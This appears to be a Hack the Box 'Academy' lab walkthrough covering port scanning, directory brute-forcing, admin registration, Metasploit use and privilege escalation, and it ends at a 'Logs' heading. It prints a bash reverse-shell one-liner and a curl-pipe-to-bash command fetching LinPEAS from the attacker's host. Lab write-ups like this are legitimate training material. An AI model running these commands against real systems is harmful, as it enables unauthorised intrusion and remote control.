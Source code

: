 # NMAP
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 1000 10.10.10.215

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-03 10:48 IST
Nmap scan report for 10.10.10.215
Host is up (0.25s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx

Nmap done: 1 IP address (1 host up) scanned in 70.45 seconds
```
```CSS
nmap -sC -sV -T4 --min-rate 1000 -p 22,80,33060 10.10.10.215

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-03 10:56 IST           
Nmap scan report for 10.10.10.215                                                    
Host is up (0.24s latency).                                                          
                                                                                     
PORT      STATE SERVICE VERSION                                                      
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                       
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)            
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)           
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)         
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))                    
|_http-server-header: Apache/2.4.41 (Ubuntu)                              
|_http-title: Did not follow redirect to http://academy.htb/              
33060/tcp open  mysqlx?                                                              
| fingerprint-strings:                                                               
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"                                                               
|_    HY000                                                                          
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service 
:                                                                                    
SF-Port33060-TCP:V=7.94%I=7%D=8/3%Time=64CB3A88%P=x86_64-pc-linux-gnu%r(NU
SF:LL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOpt
SF:ions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVersi
SF:onBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fIn
SF:valid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%
SF:r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\
SF:x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,
SF:"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY00
SF:0")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x0
SF:5\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\
SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a
SF:\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000"
SF:)%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(
SF:ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.41 seconds
```

# HTTP-80
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b666dcb7-0daf-4fde-992b-31407d91f5a7)

# Directory and File Brute-Force
```CSS
▶ gobuster dir --url http://academy.htb --extensions php --wordlist raft-medium-directories.txt

===============================================================                                                                                                            
Gobuster v3.5                                                                                                                                                              
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                              
===============================================================                                                                                                            
[+] Url:                     http://academy.htb                                                                                                                            
[+] Method:                  GET
[+] Threads:                 5                                                                                                                                             
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt                                                               
[+] Negative Status codes:   404                                                                                                                                           
[+] User Agent:              gobuster/3.5                                                                                                                                  
[+] Extensions:              php                                                                                                                                           
[+] Timeout:                 10s                                                                                                                                           ===============================================================                                                                                                            
2023/08/03 11:30:32 Starting gobuster in directory enumeration mode                                                                                                        
===============================================================                                                                                                            
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]                                                                                           
/admin.php            (Status: 200) [Size: 2633]                                                                                                                           
/register.php         (Status: 200) [Size: 3003]                                                                                                                           
/login.php            (Status: 200) [Size: 2627]                                                                                                                           
/config.php           (Status: 200) [Size: 0]                                                                                                                              
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/index.php            (Status: 200) [Size: 2117]          
```
# Register as User
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d1a301dc-c230-4f25-9a2b-fdd0e5f0a0fb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bfda213b-da7f-426f-a939-5eaed9228bc3)
# Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9c5f7937-5861-41b4-b118-f4bdee5ff6c7)
# User Dashboard
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6d632e69-0a50-4e7d-8180-c6c8fdbe0510)
# Register as Admin
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/56fc49e3-0fc6-4bd8-85b9-6afbac9d0c2a)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6b7b2ffb-4497-4b45-8b42-f83fb7859704)
# Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c792546c-9aee-4a27-b9b4-d17a32e138ee)
# Admin Page
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/46732760-b24d-4c69-a088-5afd136e69b1)
# Error Page
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad4c8c30-b309-41a8-93c7-da658733df47)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dd0a38a4-f0d6-40e1-b913-857e2cd68eff)
# Searchsploit
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/179e8926-8ed4-442b-9ffc-ddfd004b63d4)
# Metasploit
```CSS
▶ sudo msfdb run
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cac2a074-606e-4cf1-a32b-6d73255d6e8f)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ee9ba94e-1287-4ea6-a4d1-573b14348e51)
# Reverse Shell
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a0470a49-5b21-4d54-92bf-ed1723809e95)
# Shell Upgrade
```CSS
bash -c 'bash -i >& /dev/tcp/10.10.14.85/9001 0>&1'
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a984763-6024-4ff5-b6f8-f37a64b505f7)
# Searching for Info
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/509032b0-9215-4e5c-bf8b-455c1c7094e3)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ec3a54d8-6cb2-4fb2-a7cb-7fed9f81c1d4)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/881c6f7d-590c-4624-99dc-de223e6d9169)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4e8fcdc6-55e1-45f8-ae8f-8f76dd7ded72)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/973201b0-4f2b-42e8-95c5-af98ede1c6d2)
# Shell as cry0l1t3
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e746c9ba-ee46-43b2-8ee4-eab63a7e0f2e)
# List of Users (Not Required)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf5fe75b-fcff-4f91-bbf2-115df6a5d616)
# SSH login as cry0l1t3
```CSS
▶ ssh cry0l1t3@10.10.10.215
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c873204a-0966-46ae-87ac-5b58310623d6)
# LinPEAS
  - Start python server to curl LinPEAS on academy.
  - Curl and execute LinPEAS.
```CSS
$ curl http://10.10.14.85:8000/linpeas.sh | bash
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/28c32697-9912-423f-be16-9cafaa9dd3eb)

# Privilege Escalation
Group `adm` is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole. Historically, /var/log was /usr/adm (and later /var/adm), thus the name of the group.

# Logs
